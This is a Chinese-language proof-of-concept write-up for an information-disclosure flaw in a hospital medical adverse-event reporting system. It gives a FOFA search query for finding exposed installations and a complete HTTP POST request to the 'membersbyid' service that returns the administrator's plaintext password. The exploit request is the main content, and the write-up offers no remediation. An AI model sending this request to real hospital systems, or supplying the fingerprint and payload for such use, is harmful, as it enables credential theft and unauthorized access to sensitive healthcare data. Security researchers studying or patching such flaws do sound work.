 # 医疗安全(不良)事件报告系统membersbyid存在信息泄露漏洞

# 一、漏洞简介
鱼尾巴科技专注于医疗质控,为医院提供完整医疗质量解决方案,按照国家卫健委评审标准和中国医院质量安全管理标准,研发了医院等级评审系统、医疗安全(不良)事件报告系统、不良事件管理系统等。其中旗下医疗安全(不良)事件报告系统membersbyid存在信息泄露漏洞，通过该漏洞可获取管理员明文密码进入后台。

# 二、影响版本
+ 医疗安全(不良)事件报告系统

# 三、资产测绘
+ fofa`body="koma.Application"`
+ 特征

![1721306769436-e4a4bc7b-dc51-437f-beba-c4aff1c4db63.png](./img/tu4oTq5Iw6KAViO2/1721306769436-e4a4bc7b-dc51-437f-beba-c4aff1c4db63-530940.png)

# 四、漏洞复现
```plain
POST /services/members HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=E24C32CE389D5D5C83F3648A394B8A5E
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

{"method":"fetch","params":{"service":"membersbyid","members":["admin"]}}
```

![1721307770067-084b58bd-b8ea-455d-9816-b0a136ec2621.png](./img/tu4oTq5Iw6KAViO2/1721307770067-084b58bd-b8ea-455d-9816-b0a136ec2621-291163.png)

![1721306807514-42e7baa0-a868-43e4-901b-4fc15e64e954.png](./img/tu4oTq5Iw6KAViO2/1721306807514-42e7baa0-a868-43e4-901b-4fc15e64e954-576182.png)



> 更新: 2024-10-22 09:37:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zfcngaidiyc37nzg>